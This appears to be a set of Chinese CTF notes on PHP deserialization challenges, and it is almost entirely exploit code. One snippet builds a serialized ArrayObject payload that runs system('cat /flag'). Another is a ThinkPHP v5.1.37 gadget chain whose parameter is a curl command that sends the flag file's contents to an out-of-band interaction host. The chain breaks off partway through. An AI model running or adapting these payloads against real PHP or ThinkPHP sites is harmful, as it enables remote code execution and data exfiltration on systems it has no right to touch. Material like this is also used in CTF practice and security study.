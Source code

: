 ### 反序列化-PHP-007
> 使用C绕过
```php
<?php
class Show
{
    public $show;
    public function __construct($show)
    {
        $this->show = $show;
    }
}
$show = new Show('system("cat /flag");');
//$arr = array("xxx"=>$show);
$aro =new ArrayObject($show);

echo base64_encode(serialize($aro));

```

### 反序列化-PHP-008
> thinkphp v5.1.37 反序列化漏洞
>
> www.zip 获取源码
```php
<?php

namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["ethan"=>["a","2"]];
        $this->data = ["ethan"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = ["var_pjax"=>''];
    protected $param = ["curl http://sxielvzhzqayslxhetklcq64byiulay79.oast.fun -d \"$(cat /flag)\""];
    protected $mergeParam =true;
    function __construct(){
        $this->hook = ["visible"=>[$this,"isPjax"]];
    }
}
namespace think\process\pipes;

use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
namespace think\model;

```